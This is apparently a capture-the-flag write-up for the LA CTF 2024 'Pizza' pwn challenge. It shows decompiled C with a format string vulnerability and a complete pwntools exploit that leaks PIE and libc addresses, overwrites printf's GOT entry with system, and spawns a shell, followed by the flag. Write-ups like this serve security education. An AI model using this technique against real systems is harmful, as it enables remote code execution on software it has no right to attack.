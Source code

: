 ```yaml
---
title: Pizza
date: 2024-02-22T01:41:59+02:00
description: Writeup for Pizza [LA CTF 2024]
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

yummy

## Intuition

We are given an ELF 64-bit binary, with the following protections:

```
$ checksec pizza
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   44 Symbols	  No	0		2		pizza
```

We can see it has partial RELRO and no canary, which suggests buffer overflow and GOT overwrite can be done. After opening it in Ghidra we can see it is a format string vulnerability.
```c
undefined8 main(void)

{
  char local_148 [300];
  int local_1c;
  char local_15;
  int local_14;
  int local_10;
  uint local_c;
  
  setbuf(stdout,(char *)0x0);
  puts("Welcome to kaiphait\'s pizza shop!");
  do {
    puts("Which toppings would you like on your pizza?");
    for (local_c = 0; (int)local_c < 0xc; local_c = local_c + 1) {
      printf("%d. %s\n",(ulong)local_c,*(undefined8 *)(available_toppings + (long)(int)local_c * 8))
      ;
    }
    printf("%d. custom\n",0xc);
    for (local_10 = 0; local_10 < 3; local_10 = local_10 + 1) {
      printf("> ");
      __isoc99_scanf("%d",&local_1c);
      if ((local_1c < 0) || (0xc < local_1c)) {
        printf("Invalid topping");
        return 1;
      }
      if (local_1c == 0xc) {
        printf("Enter custom topping: ");
        __isoc99_scanf(" %99[^\n]",local_148 + (long)local_10 * 100);
      }
      else {
        strcpy(local_148 + (long)local_10 * 100,*(char **)(available_toppings + (long)local_1c * 8))
        ;
      }
    }
    puts("Here are the toppings that you chose:");
    for (local_14 = 0; local_14 < 3; local_14 = local_14 + 1) {
      printf(local_148 + (long)local_14 * 100);
      putchar(10);
    }
    puts("Your pizza will be ready soon.");
    printf("Order another pizza? (y/n): ");
    __isoc99_scanf(" %c",&local_15);
  } while (local_15 == 'y');
  return 0;
}
```
We can select a custom topping and then use it as a format string payload. The plan to exploit this particular binary is to leak the PIE address and libc base and then overwrite the printf function with system.

## Solution

There's not much interesting things going on in this particular solution. It's a standard leak into GOT overwrite.

```py
#!/usr/bin/env python3

from pwn import *

def send_custom_topping(topping):
    target.sendlineafter(b"> ", b"12")
    target.sendlineafter(b"Enter custom topping: ", topping)


is_remote = True
if is_remote:
    target = remote("chall.lac.tf", 31134) 
else:
    context.binary = bin = ELF("./pizza")
    libc = ELF("./libc.so.6")
    ld = ELF("./ld-linux-x86-64.so.2")

    target = process([ld.path, bin.path], env={"LD_PRELOAD": libc.path})
    #target = process("./pizza")

pie_offset = 0x1189
printf_offset_pie = 0x4020

if is_remote:
    system_offset = 0x04c490
    libc_offset = 0x2724a
else:
    system_offset = 0x50d70 
    libc_offset = 0x29d90

send_custom_topping(b"%49$p")
send_custom_topping(b"%47$p")
send_custom_topping(b"sunbather from .hidden pwning")

target.recvline()
pie_base = int(target.recvline(), 16) - pie_offset
libc_base = int(target.recvline().strip(), 16) - libc_offset
print(hex(pie_base), hex(libc_base))
print(target.recvline())

system_addr = p64(libc_base + system_offset)

# Prepare the bytes to be written
x = int.from_bytes(system_addr[:2], byteorder='little')
y = int.from_bytes(system_addr[2:4], byteorder='little')

print(system_addr, hex(u64(system_addr)))

target.sendlineafter(b"Order another pizza? (y/n): ", b"y")

printf = pie_base + printf_offset_pie
# find offsets with gdb and trial and error
payload = "%{}c%22$hn%{}c%23$hn".format(x, y-x).encode() 
payload = payload + b"A" * 2 + p64(printf) + p64(printf + 2)
print(payload)
# Overwrite printf with system
send_custom_topping(b"say cheese!")
send_custom_topping(payload)
send_custom_topping(b"/bin/sh")

target.interactive()
```

### Flag

``lactf{golf_balls_taste_great_2tscx63xm3ndvycw}``
